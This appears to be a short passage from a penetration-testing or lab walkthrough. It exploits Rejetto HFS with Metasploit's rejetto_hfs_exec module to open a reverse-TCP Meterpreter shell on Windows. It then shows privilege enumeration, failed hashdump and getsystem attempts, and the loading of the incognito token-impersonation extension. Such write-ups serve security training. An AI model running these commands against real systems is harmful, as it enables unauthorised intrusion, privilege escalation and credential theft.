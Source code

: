 ### Exploitation / Meterpreter x64 <a href="#exploitation-meterpreter-x64-1" id="exploitation-meterpreter-x64-1"></a>

```bash
search type:exploit name:rejetto
use exploit/windows/http/rejetto_hfs_exec
options
set payload windows/x64/meterpreter/reverse_tcp
run
```

```bash
meterpreter > getuid
    Server username: NT AUTHORITY\LOCAL SERVICE
    
meterpreter > getprivs 

    Enabled Process Privileges
    ==========================
    
    Name
    ----
    SeAssignPrimaryTokenPrivilege
    SeAuditPrivilege
    SeChangeNotifyPrivilege
    SeCreateGlobalPrivilege
    SeImpersonatePrivilege # Token Impersonation can be performed
    SeIncreaseQuotaPrivilege
    SeIncreaseWorkingSetPrivilege
    SeSystemtimePrivilege
    SeTimeZonePrivilege

meterpreter > hashdump # try to check if the user have sufficient privileges
    [-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
    
meterpreter > getsystem 
    [-] priv_elevate_getsystem: Operation failed: Access is denied. The following was attempted:
    [-] Named Pipe Impersonation (In Memory/Admin)
    [-] Named Pipe Impersonation (Dropper/Admin)
    [-] Token Duplication (In Memory/Admin)
    [-] Named Pipe Impersonation (RPCSS variant)
```

### Privilege Escalation <a href="#privilege-escalation-1" id="privilege-escalation-1"></a>

#### [**Incognito**](https://www.offsec.com/metasploit-unleashed/fun-incognito/)

```
meterpreter > load incognito 
    Loading extension incognito...Success.
```
